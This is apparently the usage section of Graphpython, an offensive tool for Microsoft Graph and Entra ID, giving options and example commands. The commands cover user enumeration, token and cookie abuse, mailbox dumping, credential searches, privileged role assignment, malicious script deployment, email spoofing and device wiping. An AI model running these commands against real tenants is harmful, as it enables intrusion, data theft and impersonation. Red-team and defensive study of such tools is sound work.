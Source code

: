 ```
Delete-Application  Delete an application
Delete-Device       Delete managed device
Wipe-Device         Wipe managed device
```

## Usage

```
usage: graphpython.py [-h] [--command COMMAND] [--list-commands] [--token TOKEN] [--estsauthcookie ESTSAUTHCOOKIE] [--use-cae] [--cert CERT] [--domain DOMAIN] [--tenant TENANT]
                      [--username USERNAME] [--secret SECRET] [--id ID] [--select SELECT] [--query QUERY] [--search SEARCH] [--entity {driveItem,message,chatMessage,site,event}]
                      [--device {mac,windows,androidmobile,iphone}] [--browser {android,IE,chrome,firefox,edge,safari}] [--only-return-cookies]
                      [--mail-folder {allitems,inbox,archive,drafts,sentitems,deleteditems,recoverableitemsdeletions}] [--top TOP] [--script SCRIPT]

options:
  -h, --help            show this help message and exit
  --command COMMAND     Command to execute
  --list-commands       List available commands
  --token TOKEN         Microsoft Graph access token or refresh token for FOCI abuse
  --estsauthcookie ESTSAUTHCOOKIE
                        'ESTSAuth' or 'ESTSAuthPersistent' cookie value
  --use-cae             Flag to use Continuous Access Evaluation (CAE) - add 'cp1' as client claim to get an access token valid for 24 hours
  --cert CERT           X509Certificate path (.pfx)
  --domain DOMAIN       Target domain
  --tenant TENANT       Target tenant ID
  --username USERNAME   Username or file containing username (invoke-userenumerationasoutsider)
  --secret SECRET       Enterprise application secretText (invoke-appsecrettoaccesstoken)
  --id ID               ID of target object
  --select SELECT       Fields to select from output
  --query QUERY         Raw API query (GET only)
  --search SEARCH       Search string
  --entity {driveItem,message,chatMessage,site,event}
                        Search entity type: driveItem(OneDrive), message(Mail), chatMessage(Teams), site(SharePoint), event(Calenders)
  --device {mac,windows,androidmobile,iphone}
                        Device type for User-Agent forging
  --browser {android,IE,chrome,firefox,edge,safari}
                        Browser type for User-Agent forging
  --only-return-cookies
                        Only return cookies from the request (open-owamailboxinbrowser)
  --mail-folder {allitems,inbox,archive,drafts,sentitems,deleteditems,recoverableitemsdeletions}
                        Mail folder to dump (dump-owamailbox)
  --top TOP             Number (int) of messages to retrieve (dump-owamailbox)
  --script SCRIPT       File containing the script content (deploy-maliciousscript)

examples:
  graphpython.py --command invoke-reconasoutsider --domain company.com
  graphpython.py --command invoke-userenumerationasoutsider --username <email@company.com/emails.txt>
  graphpython.py --command get-graphtokens
  graphpython.py --command invoke-refreshtoazuremanagementtoken --tenant <tenant-id> --token refresh-token
  graphpython.py --command get-users --token eyJ0... -- select displayname,id [--id <userid>]
  graphpython.py --command list-recentonedrivefiles --token token
  graphpython.py --command invoke-search --search "credentials" --entity driveItem --token token
  graphpython.py --command invoke-customquery --query https://graph.microsoft.com/v1.0/sites/{siteId}/drives --token token
  graphpython.py --command assign-privilegedrole --token token
  graphpython.py --command spoof-owaemailmessage [--id <userid to spoof>] --token token
```